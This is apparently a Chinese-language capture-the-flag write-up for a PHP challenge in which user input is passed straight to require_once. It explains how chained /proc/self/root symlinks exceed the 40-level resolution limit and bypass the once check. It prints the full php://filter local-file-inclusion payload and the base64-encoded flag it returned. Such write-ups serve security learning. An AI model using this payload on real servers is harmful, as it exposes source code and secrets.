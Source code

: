![[Pasted image 20230212095241.png|500]]

```php
<?php
highlight_file(__FILE__);
require_once 'flag.php';
if(isset($_GET['file'])) {
  require_once $_GET['file'];
}
```

参考这篇博客 [Require_once Bypass](https://web.archive.org/web/20230603040425/https://blog.rois.io/2020/require_once-bypass/)

![[Pasted image 20230212095417.png|1000]]

`/proc/self/root`是指向`/`的符号链接

![[Pasted image 20230212095650.png|500]]

最多解析40层符号链接，`self`和`root`均为符号链接，因此复制粘贴二十次就到头了

`php`在到头了之后不会报错，而是将前面40个解析出来的实际路径和后面不能继续解析的带有符号链接的路径拼到一块，当成原始路径。因此在记录已包含文件路径的哈希表中自然查不到该路径，绕过了`once`

```
/?file=php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
```

```
PD9waHAKCiRmbGFnID0gJ2ZsYWd7YThjNTFkMzgtOGZhNi00ZjkyLWJiYTYtYTQ4N2I3YmY1ZDkzfSc7Cg==
```

![[Pasted image 20230212101412.png|1000]]

#Web #PHP #LFI #linux #bypass #symlink

